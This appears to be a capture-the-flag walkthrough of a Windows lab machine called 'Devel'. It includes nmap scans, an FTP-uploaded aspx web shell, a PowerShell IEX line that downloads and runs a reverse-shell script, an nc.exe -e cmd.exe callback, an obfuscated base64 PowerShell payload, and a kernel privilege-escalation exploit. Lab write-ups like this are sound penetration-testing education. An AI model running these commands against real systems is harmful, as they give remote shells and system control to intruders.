


+++

title = "Devel"

+++


```
nmap -sT -p- -Pn -T5 nmap/initial 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-23 14:57 EST
Unable to split netmask from target expression: "nmap/initial"
Nmap scan report for 10.10.10.5
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 75.84 seconds
```

```
nmap -sV -sC -p21,80 nmap/http-ftp 10.10.10.5                                                   
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-23 15:01 EST
Unable to split netmask from target expression: "nmap/http-ftp"
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                                                      
Service scan Timing: About 50.00% done; ETC: 15:01 (0:00:06 remaining)                                                           
Nmap scan report for 10.10.10.5
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 02-27-19  12:20AM                 2788 getfuckd.aspx
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

filtered ports 

```

```

FTP

ftp as anonymous

```
ftp 10.10.10.5
```


as you can see i uploaded a asp & an aspx. the former did not work out for me. the later opened a shell. 


send it over to burp turn on intercept. 


Setup up python http server & NetCat listener. Then run powershell iex

```
python -m http.server 80
```

```
nc -lvnp 443
```

IEX invoke

be sure to url encode this string when using burp no need to encode when using the webpage.

```
IEX(New-Object Net.WebClient).downloadstring(http://10.10.14.49/Invoke-PowerShellTcp.ps1)
```



NC.EXE

this one tricky i tried to be cool and run it form the nishang shell and cmd.aspx but i keep running into error. i've run it with c:\windows\syswow64\cmd.exe. anywho the only way i got this to work was executing this from the smbshare. since the smb share isn't exposed to the outside. you could run this form inside nishang or the webportal. 

```
nc -lvnp 1920
```

```
locate smbserver.py
mkdir smb <=== put stuff here
./smbserver.py share smb
\\10.10.14.49\share\nc.exe -e cmd.exe 10.10.14.49 1920
```

SHELL

```
whoami			output 		iis apppool\web
```


No, idea what to do here going to start running various powershell scripts to see if i can elevate my privledges.

```
c:\windows\system32\powershell -NoE -Nop -NonI -ExecutionPolicy Bypass -C "sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"


```

IIS WEB ROOT DIRECTORY

```
C:\inetpub\wwwroot
```

Enumeration

Windows version

```
systeminfo
```


```
systeminfo                             
                                                    
Host Name:                 DEVEL               
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          27/2/2019, 6:48:35 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2400 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 641 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.267 MB
Virtual Memory: In Use:    781 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

```

Watson

Read oxdf guide on setting up watson. Nishang shells suck. Running things inside of powershell kind of sucks. Execute this using the smbshare. 

```
\\10.10.14.49\share\Watson.exe
```

```
[*] OS Build number: 7600
 [*] CPU Address Width: 32
 [*] Process IntPtr Size: 4
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS10-073
   [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.                 
   [>] Exploit: https://www.exploit-db.com/exploits/36327/
   [>] Notes: None.

  [*] Appears vulnerable to MS10-092
   [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Als
o, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision
, an attacker can execute arbitrary commands with SYSTEM privileges.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb                            
   [>] Notes: None.

  [*] Appears vulnerable to MS11-046
   [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/40564/
   [>] Notes: None.

  [*] Appears vulnerable to MS12-042
   [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in
kernel mode.
   [>] Exploit: https://www.exploit-db.com/exploits/20861/
   [>] Notes: None.

  [*] Appears vulnerable to MS13-005
   [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity
 Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
   [>] Notes: None.
```

 MS11-046

be sure to run this in a netcat.exe shell and not a nishang shell.. 

```
google windows-kernel-exploits
locate MS11-046
\\10.10.14.49\share\MS11-046.exe
```

